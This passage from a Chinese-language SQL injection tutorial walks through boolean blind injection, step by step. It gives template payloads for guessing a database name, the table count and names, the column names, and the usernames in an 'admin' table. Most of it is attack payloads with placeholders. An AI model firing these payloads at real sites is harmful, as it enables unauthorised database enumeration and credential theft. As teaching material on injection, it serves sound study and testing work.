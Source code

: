 第二步：逐位猜解数据库名
```
and (select ascii(substr(database(),位数,1)))=ascii码
```
![](http://image.ixysec.com/image/sql/sql086.png)

猜解表名
第一步：判断表名的数量(以便逐个判断表名长度)
```
and (select count(table_name) from information_schema.tables where table_schema=database())=数量
```
![](http://image.ixysec.com/image/sql/sql087.png)

第二步：判断某个表的长度(以便逐位猜解表名)
```
and (select length(table_name) from information_schema.tables where table_schema=database() limit n,1)=长度    //通过limit控制判断的是第几个表
```
![](http://image.ixysec.com/image/sql/sql088.png)

第三步：逐位猜解表名
```
and (select ascii(substr(table_name,位数,1)) from information_schema.tables where table_schema=database() limit n,1)=ascii码
```
![](http://image.ixysec.com/image/sql/sql089.png)

猜解列名
第一步：判断列名的数量(以便逐个判断列名长度)
```
and (select count(column_name) from information_schema.columns where table_name='表名')=数量
```
![](http://image.ixysec.com/image/sql/sql090.png)

第二步：判断某个列的长度(以便逐位猜解列名)
```
and (select length(column_name) from information_schema.columns where table_name='表名' limit n,1)=长度
```
![](http://image.ixysec.com/image/sql/sql091.png)

第三步：逐位猜解列名
```
and (select ascii(substr(column_name,位数,1)) from information_schema.columns where table_name='表名' limit n,1)=ascii码
```
![](http://image.ixysec.com/image/sql/sql092.png)

猜数据
第一步：判断数据的数量(以便逐个判断数据长度)
```
and (select count(username) from admin)=数量   //admin是查到的表名，username是admin表中的字段名
```
![](http://image.ixysec.com/image/sql/sql093.png)
